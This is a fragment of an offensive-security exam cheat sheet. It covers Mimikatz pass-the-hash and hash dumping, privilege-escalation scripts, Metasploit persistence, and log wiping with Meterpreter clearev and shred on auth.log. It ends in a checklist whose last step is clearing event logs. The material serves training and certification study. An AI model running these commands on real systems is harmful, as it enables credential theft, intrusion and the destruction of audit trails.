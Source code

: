 Windows (Mimikatz)

```
mimikatz # privilege::debug
```

```
mimikatz # sekurlsa::pth /user:Admin /domain:TEST /ntlm:NTLM_HASH
```

```
./LinEnum.sh -t -r report.html`
```

### Clearing Tracks

Windows Event Log Manipulation

```
meterpreter > clearev
```

```
meterpreter > run event_manager -i
```

Linux Log Cleaning

```
shred -zu /var/log/auth.log
```

Linux Log Cleaning

```
shred -zu /var/log/auth.log
```

### Exam-Critical Reference Table


| Technique         | Tool       | Command Example            | Key Flags           |
| ----------------- | ---------- | -------------------------- | ------------------- |
| Hash Extraction   | mimikatz   | `sekurlsa::logonpasswords` | Requires admin      |
| Password Cracking | hashcat    | `hashcat -m 1000` for NTLM | `--force` for GPU   |
| Privilege Escal.  | linpeas.sh | `./linpeas.sh`             | Look for yellow/red |
| Persistence       | metasploit | `run persistence -X`       | `-i` for interval   |

### Practical Exam Checklist

1. Extract password hashes
2. Crack at least one admin hash
3. Escalate privileges
4. Establish persistence
5. Clear event logs

### Pro Tips:
